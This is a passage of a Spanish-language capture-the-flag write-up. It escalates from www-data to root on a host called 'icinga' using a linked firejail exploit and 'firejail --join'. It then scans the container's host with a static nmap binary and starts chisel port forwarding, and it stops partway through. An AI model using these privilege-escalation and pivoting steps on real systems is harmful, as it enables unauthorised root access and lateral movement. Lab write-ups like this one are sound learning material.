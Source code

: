 Utilizo este [POC](https://seclists.org/oss-sec/2022/q2/att-188/firejoin_py.bin) para su explotación. Ejecuto el exploit y en otra shell me cambio como ```root```

```null
www-data@icinga:/tmp$ python3 firejoin.py 
You can now run 'firejail --join=2117' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.
```

```null
www-data@icinga:/usr/share/icingaweb2/public$ firejail --join=2117  
firejail --join=2117
changing root to /proc/2117/root
Warning: cleaning all supplementary groups
Child process initialized in 10.41 ms

www-data@icinga:/usr/share/icingaweb2/public$ su
su
root@icinga:/usr/share/icingaweb2/public# whoami
whoami
root
root@icinga:/usr/share/icingaweb2/public#
```

Pero la flag no está aquí

```null
root@icinga:/# find \-name user.txt 2>/dev/null
```

Como estoy dentro de un contenedor, puedo escanear otras posibles IPs

```null
root@icinga:/# hostname -I
172.16.22.2 
```

Subo un binario estático de ```nmap``` para escanear los puertos del host

```null
root@icinga:/tmp# ./nmap -p- --open --min-rate 5000 -n -Pn -sS 172.16.22.1

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-06-01 12:43 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.16.22.1
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (-0.12s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE
5985/tcp open  unknown
MAC Address: 00:15:5D:5F:E8:00 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 26.62 seconds
```

Subo el ```chisel``` para aplicar ```Remote Port Forwading```. En mi equipo lo ejecuto como servidor
